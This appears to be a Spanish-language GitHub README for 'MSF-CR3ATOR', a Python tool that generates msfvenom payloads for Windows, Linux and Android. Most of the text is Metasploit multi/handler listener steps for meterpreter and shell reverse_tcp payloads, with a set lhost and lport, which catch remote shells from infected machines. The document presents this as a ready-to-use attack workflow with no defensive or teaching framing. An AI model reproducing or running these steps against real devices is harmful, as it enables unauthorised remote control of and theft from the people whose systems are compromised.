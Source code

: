 # MSF-CR3ATOR
Crear Payload con msfvenom Para Windows Linux Y Android

# Ejecutar 
cd MSF-CR3ATOR ; python3 creator.py

# Comando De Msf Console

-------------------------------------------------
	>>>>>>>> LINUX <<<<<<<<<
-------------------------------------------------
msfconsole

use exploit/multi/handler

set payload linux/x64/meterpreter_reverse_tcp

set lhost 192.168.0.101

set lport 5555

exploit

-------------------------------------------------
	>>>>>>>> WINDOWS <<<<<<<<<
-------------------------------------------------
msfconsole

use exploit/multi/handler

set payload/windows/shell/reverse_tcp

set lhost 192.168.0.101

set lport 5555

exploit


-------------------------------------------------
	>>>>>>>> ANDROID <<<<<<<<<
-------------------------------------------------
msfconsole

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp 

set lhost 192.168.0.101

set lport 5555

exploit

